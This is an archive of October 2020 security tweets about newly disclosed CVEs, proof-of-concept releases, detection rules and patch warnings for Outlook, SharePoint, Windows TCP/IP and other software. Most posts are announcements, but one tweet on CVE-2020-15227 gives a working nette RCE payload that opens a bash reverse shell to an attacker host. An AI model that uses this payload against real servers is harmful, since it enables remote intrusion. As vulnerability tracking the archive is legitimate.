This vulnerability occurs in Outlook 2019 (16.0.13231.20262) installed on Windows 10 1909 x64

https://t.co/UJH1spv68T
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1317017834791329792 _at 2020-10-16 08:21:35_**
<blockquote>
CVE-2020-16947: PoC of CVE-2020-16947 (Microsoft Outlook RCE vulnerablility)

https://t.co/0ck5mrbwaO https://t.co/AOvsBKdGVF
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>223</code></td>
</tr></table>

---

# farazsth98
**https://twitter.com/farazsth98/status/1316987901964480512 _at 2020-10-16 06:22:38_**
<blockquote>
There's a poc already out for BleedingTooth with no patches to mitigate it btw

https://t.co/PyspyOsl7X
</blockquote>

* https://github.com/google/security-research/security/advisories/GHSA-h637-c88j-47wq

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# certbund
**https://twitter.com/certbund/status/1316974664120492033 _at 2020-10-16 05:30:02_**
<blockquote>
Am 13.10. hat Microsoft Sicherheitsupdates für kritische #RCE #Schwachstellen (CVE-2020-16951, -16952) in #SharePoint 2013-2019 veröffentlicht.
#PoC #Exploit Code ist bereits öffentlich verfügbar.
Aktuell sind mindestens 600 SharePoint-Server in Deutschland verwundbar. #PATCHNOW! https://t.co/9tTuXR0SoY
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>29</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1316905632587501569 _at 2020-10-16 00:55:44_**
<blockquote>
GitHub - 0neb1n/CVE-2020-16947: PoC of CVE-2020-16947 (Microsoft Outlook RCE vulnerablility) - https://t.co/lxlEQcBBTn
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---

# tokio_rs
**https://twitter.com/tokio_rs/status/1316784545102995457 _at 2020-10-15 16:54:34_**
<blockquote>
Announcing Tokio 0.3 and the path to 1.0: https://t.co/mHuimP01xD; changelog: https://t.co/EM9uMEAMB1 #rustlang
</blockquote>

* https://tokio.rs/blog/2020-10-tokio-0-3
* https://github.com/tokio-rs/tokio/releases/tag/tokio-0.3.0

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>311</code></td>
</tr></table>

---

# 0neb1n
**https://twitter.com/0neb1n/status/1316755683065307136 _at 2020-10-15 14:59:53_**
<blockquote>
https://t.co/KnBoYPhfcY
writeup and poc of cve-2020-16947 (outlook rce vuln)
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>376</code></td>
</tr></table>

---

# alekseykulikov_
**https://twitter.com/alekseykulikov_/status/1316743436960178178 _at 2020-10-15 14:11:13_**
<blockquote>
★ Introducing crux-api – a Chrome UX Report API wrapper that handles errors and provides types.

• A tiny (450b) wrapper for @ChromeUXReport API
• TS support for options and responses
• URL normalization helper
• Automatic retry for 429 errors

→ https://t.co/J31iLf45Db https://t.co/FHc3iVtmEl
</blockquote>

* https://github.com/treosh/crux-api

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1316688725800374279 _at 2020-10-15 10:33:49_**
<blockquote>
PoC published for CVE-2020-16952, a post-auth Microsoft SharePoint RCE

https://t.co/3P4UaMqt36 https://t.co/v6LUl0I5rx
</blockquote>

* https://srcincite.io/advisories/src-2020-0022/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# ddouhine
**https://twitter.com/ddouhine/status/1316661921974833152 _at 2020-10-15 08:47:19_**
<blockquote>
SharePoint admins: PATCH !
Upcoming Microsoft SharePoint Server-Side Include and ViewState RCE (CVE-2020-16952) exploit in #metasploit

@msftsecurity you can update your advisory

Vulnerability found by @steventseeley and module by @wvuuuuuuuuuuuuu 

https://t.co/MOsRPDSHu6 https://t.co/EOKPqeUfBT
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/14265

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# RedDrip7
**https://twitter.com/RedDrip7/status/1316592876881502208 _at 2020-10-15 04:12:57_**
<blockquote>
The #CVE-2020-16922 is a #spoofing #vulnerability we submitted to #Microsoft. When a malicious #JAR or #HTA appended to a #CAT file properly #signed by #Microsoft, the security features to prevent improperly signed files from loading gets bypassed.

https://t.co/HSSKidjjjX https://t.co/IxH8YH3ayS
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16922

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# benreardon
**https://twitter.com/benreardon/status/1316528019062710272 _at 2020-10-14 23:55:14_**
<blockquote>
Just released a simple Zeek package that nicely detects CVE-2020-16898 AKA "Bad Neighbor” (Windows TCP/IP Remote Code Execution vuln) https://t.co/QZiuvhPH5k @corelight_inc @ynadji
</blockquote>

* https://github.com/corelight/CVE-2020-16898

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1316497085320097792 _at 2020-10-14 21:52:19_**
<blockquote>
Looking at patch diff of tcpip.sys, it seems "Ipv6pHandleRouterAdvertisement()" function which is called by "Icmpv6ReceiveDatagrams()" function is guilty for Microsoft Windows ICMPv6 router advertisement RCE vulnerability (CVE-2020-16898): https://t.co/9HLISvpHil
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>315</code></td>
</tr></table>

---

# thracky
**https://twitter.com/thracky/status/1316461143754510337 _at 2020-10-14 19:29:29_**
<blockquote>
Figured out CVE-2020-16898 finally. Definitely a biiiiig caveat to exploitation that nobody is talking about (and I won't mention it at the moment, sorry) https://t.co/7zwdrL1vml
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1316443774743121920 _at 2020-10-14 18:20:28_**
<blockquote>
Microsoft is on fire lately 🔥 

CVE-2020-16947 | Microsoft Outlook Remote Code Execution Vulnerability

https://t.co/4I5ZnrNToP
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16947

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# hemayait
**https://twitter.com/hemayait/status/1316430135759908869 _at 2020-10-14 17:26:17_**
<blockquote>
CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability

A remote code execution vulnerability exists when the Windows TCP/IP stack improperly handles ICMPv6 Router Advertisement packets.

https://t.co/mqBXYB4Y0k

Detection Rule is here

https://t.co/LDYI8940K4
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898
* https://github.com/advanced-threat-research/CVE-2020-16898

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1316416189527068672 _at 2020-10-14 16:30:52_**
<blockquote>
CVE-2020-15227 PHP framework nette callback RCE

POC: /nette.micro?callback=shell_exec&amp;cmd=bash%20-i%20&gt;&amp;%20/dev/tcp/'+lhost+'/'+lport+'0&gt;&amp;1

https://t.co/M4oEFOYZva https://t.co/TH5Iu9lFDP
</blockquote>

* https://t.zsxq.com/zn2BQZr

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>274</code></td>
</tr></table>

---

# theori_io
**https://twitter.com/theori_io/status/1316390869537153025 _at 2020-10-14 14:50:15_**
<blockquote>
Researchers at Theori have successfully confirmed the CVE-2020-16898 vulnerability, dubbed as Bad Neighbor, by demonstrating a remote crash of Windows with BSOD. Be aware of those packets! We are working to craft an RCE exploit, though it looks tough ;)

https://t.co/AfRYs0g4iD
</blockquote>

* https://www.youtube.com/watch?v=TjTAYarKDJQ

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# Kevin2600
**https://twitter.com/Kevin2600/status/1316380576593571840 _at 2020-10-14 14:09:21_**
<blockquote>
There was CVE-2020-16142 for Benz and CVE-2017-9212 for BMW. Now I present you, Audi. Because why not 😂 https://t.co/JnkGeTgw9x https://t.co/aQQx6hhh1h
</blockquote>

* https://tiger-team-1337.blogspot.com/2020/10/audi-a7-2014-mmi-mishandles-format.html

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>254</code></td>
<td>Favorites: <code>678</code></td>
</tr></table>

---

# H_Miser
**https://twitter.com/H_Miser/status/1316288911040274437 _at 2020-10-14 08:05:06_**
<blockquote>
Threat level: very préoccupé

CVE-2020-16947 - Microsoft Outlook RCE Vulnerability” allows attackers to send specially crafted emails that can execute commands when opened in the Microsoft Outlook software. This attack also works when an email is viewed in the preview pane. https://t.co/P9ldLFkosM
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>121</code></td>
<td>Favorites: <code>195</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1316217774125924352 _at 2020-10-14 03:22:26_**
<blockquote>
CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability
Vulnerability Details:
https://t.co/iAX5FiFajJ
Update:
https://t.co/TKrrUk4iQB https://t.co/j33DMv59eV
</blockquote>

* https://www.mcafee.com/blogs/other-blogs/mcafee-labs/cve-2020-16898-bad-neighbor/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# h0mbre_
**https://twitter.com/h0mbre_/status/1316171459446726656 _at 2020-10-14 00:18:23_**
<blockquote>
CVE-2020-12928, Privilege Escalation in AMD Ryzen Master Overclocking Utility Driver AMDRyzenMaster.sys exploit proof-of-concept. Thanks to everyone mentioned for the help! https://t.co/rmIXieOOvC
</blockquote>

* https://h0mbre.github.io/RyzenMaster_CVE/

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>247</code></td>
<td>Favorites: <code>645</code></td>
</tr></table>

---

# US_CYBERCOM
**https://twitter.com/US_CYBERCOM/status/1316150332498608128 _at 2020-10-13 22:54:26_**
<blockquote>
Update your Microsoft software now so your system isn't exploited: CVE-2020-16898 in particular should be patched or mitigated immediately, as vulnerable systems could be compromised remotely.
</blockquote>

<table><tr>
<td>Quotes: <code>26</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>259</code></td>
<td>Favorites: <code>332</code></td>
</tr></table>

---

# ollieatnccgroup
**https://twitter.com/ollieatnccgroup/status/1316109559526838275 _at 2020-10-13 20:12:25_**
<blockquote>
CVE-2020-16898 (Windows TCP/IP RCE) is beaten by CVE-2020-16952 (SharePoint post auth file inclusion leading to RCE). CVE-2020-16952 has an exploit out and when combined with password spraying/phishing for creds s a threat right now - https://t.co/IZbbn8aB4o
</blockquote>

* https://www.reddit.com/r/blueteamsec/comments/jal83d/cve202016952_microsoft_sharepoint_server/

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>312</code></td>
</tr></table>

---

# jonasLyk
**https://twitter.com/jonasLyk/status/1316104870987010048 _at 2020-10-13 19:53:47_**
<blockquote>
CVE-2020-16938 - aka bits please!
So...recent update changed the permissions on partitions and volume device objects, granting everybody read access.
This means that by opening the device directly you can read the raw data without any privs.
7zip parses NTFS so super for POC https://t.co/JXBTmcEIxQ
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>40</code></td>
<td>Replies: <code>20</code></td>
<td>Retweets: <code>489</code></td>
<td>Favorites: <code>1106</code></td>
</tr></table>

---

# daniel_bilar
**https://twitter.com/daniel_bilar/status/1316104788740919296 _at 2020-10-13 19:53:28_**
<blockquote>
CVE-2020-16898 via @spovolny 
&gt; BSOD, RCE
&gt; ICMPv6 RA type 25
&gt; bypasses Win 10 / Server 2019 mitigation

"On Oct 13, MS announced exceptionally critical vul in Windows IPv6 stack"

"POC shared w MAPP members both extremely simple &amp; perfectly reliable"

https://t.co/r2uB9AaZ8t https://t.co/bRAK1VYziE
</blockquote>

* https://github.com/advanced-threat-research/CVE-2020-16898

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>22</code></td>
</tr></table>

---

# circl_lu
**https://twitter.com/circl_lu/status/1316096472375603202 _at 2020-10-13 19:20:25_**
<blockquote>
"CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability"

"A remote code execution vulnerability exists when the Windows TCP/IP stack improperly handles ICMPv6 Router Advertisement packets. "

https://t.co/bC1M9eOu2o
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1316084624553017345 _at 2020-10-13 18:33:20_**
<blockquote>
Microsoft SharePoint Server DataFormWebPart CreateChildControls Server-Side Include Remote Code Execution Vulnerability

CVE: CVE-2020-16952
Advisory: https://t.co/ArJrenuRR5
Technical analysis + PoC exploit: https://t.co/sKCiTY1Ver
</blockquote>

* https://srcincite.io/advisories/src-2020-0022/
* https://srcincite.io/pocs/cve-2020-16952.py.txt

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>218</code></td>
<td>Favorites: <code>397</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1316082539858190341 _at 2020-10-13 18:25:03_**
<blockquote>
CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability 😱

https://t.co/0r0s1oqTDg
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898

<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>224</code></td>
<td>Favorites: <code>431</code></td>
</tr></table>

---

# blueteamblog
**https://twitter.com/blueteamblog/status/1316077767805599744 _at 2020-10-13 18:06:06_**
<blockquote>
Highlight from Patch Tuesday is CVE-2020-16898 / Bad Neighbor

A RCE vulnerability exists when the Windows TCP/IP stack improperly handles ICMPv6 Router Advertisement packets that use Option Type 25 (Recursive DNS Server Option) and a length field value that is even.
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1316068580585340931 _at 2020-10-13 17:29:35_**
<blockquote>
The Microsoft October Patch Tuesday security updates are out

-This month we have fixes for 87 vulnerabilities
-21 are RCEs
-CVE-2020-16898 is probably the worst, an RCE in the Windows TCP/IP stack with a 9.8/10 CVSS score

https://t.co/EQUMZedSLF https://t.co/geocZqAhDE
</blockquote>

* https://www.zdnet.com/article/microsoft-october-2020-patch-tuesday-fixes-87-vulnerabilities/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>142</code></td>
</tr></table>

---

# spovolny
**https://twitter.com/spovolny/status/1316063618161504256 _at 2020-10-13 17:09:52_**
<blockquote>
#BadNeighbor is here! This is what we nicknamed the Microsoft Windows critical and wormable RCE vuln, CVE-2020-16898. McAfee ATR has released brief analysis and a Suricata rule for those unable to patch. 

https://t.co/XaocOyIv1t
https://t.co/Zo8PEKUEkz

#atr #badneighbor #mcafee
</blockquote>

* https://www.mcafee.com/blogs/other-blogs/mcafee-labs/cve-2020-16898-bad-neighbor
* https://github.com/advanced-threat-research/CVE-2020-16898

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>141</code></td>
<td>Favorites: <code>218</code></td>
</tr></table>

---

# EyalItkin
**https://twitter.com/EyalItkin/status/1315655528752787457 _at 2020-10-12 14:08:16_**
<blockquote>
Thanks to the help from @Horgh_rce, we can now confirm that we were able to attribute another Windows LPE exploit to Volodya — CVE-2017-0056. This brings the overall number of exploits we attributed to Volodya to 12. https://t.co/WRVULMLeOo
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# SBousseaden
**https://twitter.com/SBousseaden/status/1315353506815991808 _at 2020-10-11 18:08:08_**
<blockquote>
generic #yara hunting rule that can be useful for suspicious MS Office add-ins with code injection capab 

https://t.co/smXmsSJfeB https://t.co/nDDfwiHhJj
</blockquote>

* https://github.com/sbousseaden/YaraHunts/blob/master/hunt_susp_msoffice_addins_wxll.yara

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# 0xorco
**https://twitter.com/0xorco/status/1315004569810866176 _at 2020-10-10 19:01:35_**
<blockquote>
My @Unit42_Intel blog post about CVE-2020-14386: Privilege Escalation Vulnerability in the Linux kernel
https://t.co/3eFaz2KwqE
</blockquote>

* https://unit42.paloaltonetworks.com/cve-2020-14386/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>121</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1314958662952157184 _at 2020-10-10 15:59:10_**
<blockquote>
CVE-2020-14386: Privilege Escalation Vulnerability in the Linux kernel.

Bug described as a "simple arithmetic security issue"

Write-up: https://t.co/3iTUKjNcuh

POC: https://t.co/9NV9qTy4q5 https://t.co/NQBy4bNwQn
</blockquote>

* https://unit42.paloaltonetworks.com/cve-2020-14386/
* https://www.openwall.com/lists/oss-security/2020/09/03/3

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>212</code></td>
</tr></table>

---

# niemand_sec
**https://twitter.com/niemand_sec/status/1314589526032080898 _at 2020-10-09 15:32:21_**
<blockquote>
New #security advisory 🥳:

"Unauthenticated Remote Code Execution in OverwolfUpdater" - CVE-2020-25214 https://t.co/GRk1hgEERn
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# lefterispan
**https://twitter.com/lefterispan/status/1314223802188955653 _at 2020-10-08 15:19:06_**
<blockquote>
Extra tool releases today! New SilentClean UAC bypass for CobaltStrike and a BOF for SAM dumping. https://t.co/ERn8SV7xDJ &amp; https://t.co/SIRa0eeJwi #RedTeam #CobaltStrike #Pentesting https://t.co/NrbbvMGlmB
</blockquote>

* https://github.com/EncodeGroup/UAC-SilentClean
* https://github.com/EncodeGroup/BOF-RegSave

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1313598440719355904 _at 2020-10-06 21:54:08_**
<blockquote>
We’re seeing more activity leveraging the CVE-2020-1472 exploit (ZeroLogon). A new campaign shrewdly poses as software updates that connect to known CHIMBORAZO (TA505) C2 infrastructure. The fake updates lead to UAC bypass and use of wscript.exe to run malicious scripts.
</blockquote>

<table><tr>
<td>Quotes: <code>28</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>445</code></td>
<td>Favorites: <code>750</code></td>
</tr></table>

---

# n0psledbyte
**https://twitter.com/n0psledbyte/status/1312928270447337472 _at 2020-10-05 01:31:07_**
<blockquote>
i solved yaknote in tasteless ctf, this is kernel pwn challenge. the bug is we can pause kernel execution (using userfaultfd) after count member variable is incremented in allocating handler in ioctl, this leads to OOB and use after free
exploit script: https://t.co/lNE3U40FLk https://t.co/Xiggtl3VY2
</blockquote>

* https://gist.github.com/d4em0n/ce00a029242a54bd32ff3fd3fde70f44

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# justinsteven
**https://twitter.com/justinsteven/status/1312152915344195584 _at 2020-10-02 22:10:08_**
<blockquote>
Microsoft Visual Studio Code seems to have botched the fix for CVE-2020-16881, a "remote code execution" vulnerability regarding "malicious package.json files". The patch can be trivially bypassed.  A thread 🧵
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>185</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1311510376031219712 _at 2020-10-01 03:36:54_**
<blockquote>
Hardware Hacking Experiments - Extracting firware from embedded Devices : https://t.co/Qj7SI1fHDO (Slides/pdf)
</blockquote>

* https://github.com/koutto/hardware-hacking/blob/master/Hardware-Hacking-Experiments-Jeremy-Brun-Nouvion-2020.pdf

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>130</code></td>
</tr></table>

---

